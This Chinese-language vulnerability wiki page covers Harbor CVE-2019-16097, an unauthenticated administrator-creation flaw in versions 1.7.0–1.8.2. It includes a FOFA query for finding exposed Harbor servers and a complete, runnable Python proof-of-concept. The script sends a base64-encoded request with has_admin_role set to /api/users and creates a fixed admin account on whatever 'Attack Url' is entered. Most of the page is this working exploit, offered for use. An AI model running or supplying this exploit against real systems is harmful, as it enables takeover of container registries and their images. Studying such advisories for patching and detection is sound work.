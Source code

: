 ```yaml
---
title: Harbor 未授权创建管理员漏洞 CVE-2019-16097
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Harbor
---
```


# Harbor 未授权创建管理员漏洞 CVE-2019-16097

## 漏洞描述

近日，镜像仓库Harbor爆出任意管理员注册漏洞，攻击者在请求中构造特定字符串，在未授权的情况下可以直接创建管理员账号，从而接管Harbor镜像仓库。我们得到消息，第一时间对该漏洞进了验证，官方已发布公告说明，最新的1.7.6和1.8.3已修复此漏洞，请使用到的用户尽快升级至安全版本。

Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器。Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。

## 漏洞影响

> [!NOTE]
>
> Harbor 1.7.0版本至1.8.2版本

## FOFA

> [!NOTE]
>
> title="Harbor"

## 漏洞复现

登录页面如下

![](/img/20210924015347989049.png)

向**/api/user** 接口发送创建用户的请求, 状态码返回201即创建成功

![](/img/20210924015348235302.png)

使用创建的账户成功登录后台

![](/img/20210924015348549913.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Harbor 1.7.0至1.8.2                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/users"
    data = base64.b64decode("eyJ1c2VybmFtZSI6IlBlaVFpIiwiZW1haWwiOiJQZWlRaUBxcS5jb20iLCJyZWFsbmFtZSI6IlBlaVFpIiwicGFzc3dvcmQiOiJQZWlRaVBlaVFpIiwiY29tbWVudCI6IjEiLCJoYXNfYWRtaW5fcm9sZSI6dHJ1ZX0=")
    headers = {"Content-Type": "application/json", "Accept": "application/json"}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/api/users..... \033[0m".format(target_url))
        if response.status_code == 201:
            print("\033[32m[o] 目标 {} 存在漏洞\033[0m".format(target_url))
            print("\033[32m[o] 成功创建账号:PeiQi 密码:PeiQiPeiQi\033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924015349733157.png)